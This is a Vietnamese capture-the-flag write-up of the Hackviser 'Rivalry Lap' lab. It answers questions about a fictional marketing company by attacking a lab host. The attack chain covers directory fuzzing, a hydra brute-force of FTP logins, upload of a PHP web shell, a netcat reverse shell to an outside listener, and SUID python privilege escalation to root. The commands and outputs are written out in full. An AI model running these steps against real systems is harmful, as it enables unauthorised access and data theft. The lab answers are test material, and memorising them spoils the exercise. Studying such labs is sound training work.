 ```yaml
---
title: "Rivalry Lap"
published: 2025-09-19
description: "Bài này khá là hay."
tags: [CAPT, Hackviser]
category: Write up
draft: false
---
```


# **Rivalry Lap**
## How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?
- truy cập trang web tôi thấy được giới thiệu ở gần cuối trang rằng **"CreateEdge's strategies gained us 3500 new customers in just a few months!"**
==> điều đó cho biết được rằng đáp án là **3500**

---
## What is the advertising budget of Orbitronix Systems in dollars?
- Thử dùng công cụ ffuf để quét thư mục , tôi phát hiện được 1 thư mục có tên **ftp**
```
 ffuf -ic-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e '.php'-u http://createdge.hv/FUZZ/ -t 40

     /'___\  /'___\           
   /\ \__/ /\ \__/  __  __  /\ \__/       
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
     \ \_\ \ \_\ \ \____/  \ \_\          
      \/_/  \/_/  \/_/___/   \/_/          
v2.1.0-dev
 ________________________________________________
:: Method           : GET        
:: URL              : http://createdge.hv/FUZZ/       
:: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list     
2.3-medium.txt
:: Extensions       : .php 
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10   
:: Threads          : 40   
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 ________________________________________________
 .php                     [Status: 200, Size: 10752, Words: 3217, Lines: 272, Duration: 188ms]
 icons                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 183ms]
 assets                   [Status: 200, Size: 1501, Words: 100, Lines: 20, Duration: 182ms]
 ftp                      [Status: 200, Size: 935, Words: 62, Lines: 17, Duration: 182ms]

```
- Truy cập vào thư mục ta thấy được 1 file **clients.csv** . Tải nó về và mở ra thì có nội dung là :
```
Company Name,Advertising Budget ($)
Innovatech Ltd,50000
QuantumSoft,75000
BlueHaven Tech,60000
PinnacleByte,45000
SysTech Global,80000
Orbitronix Systems,225000
NexaCore Tech,30000
Zenithar Tech,70000
VortexaTech,55000
NovaSphere Tech,65000

```
==> đáp án là **225000**

---
## Who is the target audience of the Orbitronix Systems advertising campaign?
- Tôi quét mục tiêu bằng công cụ nmap thì phát hiện có bật cổng dịch vụ ftp trên port 21
- Sau đó tôi đã dùng công cụ hydra để quét các cặp tài khoản mật khẩu dễ bị xâm phạm 
```
┌─[✗]─[root@hackerbox]─[~]
└──╼ #hydra -f -V -I -t 4 -s 21 -C /root/Desktop/misc/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.20.22.208 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 08:52:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 66 login tries, ~17 tries per task
[DATA] attacking ftp://172.20.22.208:21/
[ATTEMPT] target 172.20.22.208 - login "anonymous" - pass "anonymous" - 1 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "rootpasswd" - 2 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "root" - pass "12hrs37" - 3 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp" - pass "b1uRR3" - 4 of 66 [child 3] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftp_boot" - pass "ftp_boot" - 48 of 66 [child 0] (0/0)
[ATTEMPT] target 172.20.22.208 - login "uploader" - pass "ZYPCOM" - 49 of 66 [child 1] (0/0)
[ATTEMPT] target 172.20.22.208 - login "ftpuser" - pass "password" - 50 of 66 [child 2] (0/0)
[ATTEMPT] target 172.20.22.208 - login "USER" - pass "USER" - 51 of 66 [child 3] (0/0)
[21][ftp] host: 172.20.22.208   login: ftpuser   password: password
[STATUS] attack finished for 172.20.22.208 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 08:52:36

```
==> Thấy được công cụ đã quét được tài khoản mật khẩu để đăng nhập dịch vụ ftp là **ftpuser:password**
- Đăng nhập vào dịch vụ ftp 
```
ftp 172.20.22.208
```
- Tôi đã tạo 1 file web shell ở [đây](https://github.com/flozz/p0wny-shell) , sau đó tôi tải nó lên sever web
```
put shell.php
```
- Quay trở lại shell tôi cấu hình lắng nghe trên cổng 8888
```
nc -lvp 8888
```
- Sau đó tôi truy cập file shell trên trình duyệt và chạy câu lệnh
```
www-data@debian:/# nc -e /bin/bash 172.20.22.91 8888
```
- Khi có được shell , tôi đã chạy python để có được 1 shell chỉnh chu và đẹp mắt hơn
```
python3 -c 'import os; os.system("/bin/bash")'
```
---
- Dùng find để tìm kiếm file thực thi có setuid được bật để tìm kiếm cơ hội leo thang đặc quyền .
```
find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/python3.9
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
- python3.9 có bật setuid là 1 lỗ hỏng có thể leo thang đặc quyền .
```
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
- Khi đã có root tôi truy cập vào đường dẫn /archive/detailed_client_info.csv
, nội dung của file này là:
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
BlueHaven Tech,60000,Product Launch,Yes,Tech Enthusiasts,4
PinnacleByte,45000,Market Expansion,Yes,Global Market,5
SysTech Global,80000,Online Engagement,No,Online Shoppers,2
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
NexaCore Tech,30000,Brand Awareness,No,Youth,7
Zenithar Tech,70000,Sales Increase,Yes,B2B Clients,1
VortexaTech,55000,Market Expansion,No,Local Market,8
NovaSphere Tech,65000,Product Launch,Yes,Innovators,9
```
==> đáp án cho câu hỏi này là : **Young Adults**

---

## What is the name of the secret marketing tool developed by Create Edge?

- Tiếp tục đọc nội dung của file /archive/meetings/orbitronix_system-2023-11-20.txt thấy được đoạn nội dung này :
```
Meeting Notes: Create Edge - Orbitronix Systems
Date: 2023-11-20
Location: Create Edge Headquarters

Attendees:
- Alex Carter (Create Edge, Marketing Director)
- Sophia Reynolds (Orbitronix Systems, Senior Project Manager)

Agenda:
1. Introduction and objectives of the meeting.
2. Discussion on current market trends and consumer behavior.
3. Overview of Orbitronix Systems' marketing goals.
4. Create Edge's proposed marketing strategies for Orbitronix Systems.
5. Budget considerations and timelines.
6. Q&A and next steps.

Key Points Discussed:
- Orbitronix Systems is seeking to enhance its brand visibility and customer engagement.
- Create Edge presented a comprehensive digital marketing strategy, focusing on social media and content marketing.
- Discussed the importance of SEO and online presence for Orbitronix Systems.
- Budget allocation for the campaign was tentatively agreed upon, subject to approval by Orbitronix Systems' finance department.
- Proposed timeline for the marketing campaign rollout is 12 months, starting from February 2024.

Secret and Highly Important Information:
- Alex Carter revealed that Create Edge has developed a groundbreaking AI-driven marketing analysis tool,which name is InsightNexus AI, which they plan to implement for the first time in the Orbitronix campaign.
- Sophia Reynolds mentioned a potential merger between Orbitronix Systems and another major tech player, which could significantly shift the market dynamics.

Action Items:
- Create Edge to send a detailed proposal to Orbitronix Systems by 2024-01-27.
- Orbitronix Systems to review and provide feedback on the proposal by 2024-02-03.
- Schedule a follow-up meeting to finalize the campaign details.

Meeting concluded at 3:30 PM.
```
==> Qua đoạn hội thoại trên ta thấy được đáp án chính là : **InsightNexus AI**


